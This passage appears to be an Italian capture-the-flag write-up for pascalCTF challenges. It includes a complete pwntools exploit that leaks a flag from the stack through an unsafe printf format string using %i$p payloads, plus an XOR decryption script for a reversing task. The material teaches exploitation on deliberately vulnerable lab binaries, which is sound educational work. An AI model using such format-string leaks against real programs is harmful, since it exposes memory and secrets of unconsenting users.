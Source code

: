 ### E.L.I.A
Questa challenge legge prima la flag dal file `flag.txt` e la salva nello **stack**. Poi, richiede un input dall'utente e successivamente lo stampa in modo insicuro usando `printf` senza alcun **formato definito**.

Questo eseguibile può quindi essere sfruttato se vengono trovati e utilizzati i corretti offset nello stack della flag (da 8 a 13) insieme a `%p` nel formato `%x$p`, dove *x* è l'offset.

```py
#!/usr/bin/env python3
from pwn import args, remote, process

# Change this to remote if you want to run it on remote server
if args.REMOTE:
    r = remote('localhost', 1339) # change host and port
else:
    r = process('./elia')

r.recvuntil(b'?\n')
PAYLOAD = b''
for i in range(8, 13):
    PAYLOAD += f'%{i}$p'.encode()

r.sendline(PAYLOAD)
flag = [int(i, 16) for i in r.recvline().decode().split('0x')[1:]]
pascal = ''
for i in flag:
    pascal += i.to_bytes(8, 'little').decode()

pascal = pascal.replace('\x00', '')
print(pascal)
```

## Reverse Engineering ⚙️
### X-Ray
Questa challenge legge una "*licenza*" e poi verifica se è valida.  
Il problema principale qui è che la cifratura della licenza è stata fatta utilizzando **XOR**, quindi può essere decrittata nel seguente modo.

```py
#!/usr/bin/env python3
def xor(a, b):
    return bytes([x ^ y for x, y in zip(a, b)])

KEY = "*7^tVr4FZ#7S4RFNd2"
ENC = "xR\x08G$G\x07\x19kPhgCa5~\t\x01"

flag = xor(KEY.encode(), ENC.encode()).decode()
print(f"pascalCTF{{{flag}}}")
```

### Switcharoo
Questa challenge coinvolge un semplice controllo della flag utilizzando una struttura switch-case. Sebbene il compito non sia particolarmente difficile, richiede comunque di fare il reverse del codice per determinare l'indice corretto per ogni carattere specifico. Questo può essere ottenuto analizzando il codice decompilato utilizzando strumenti come IDA o Ghidra.
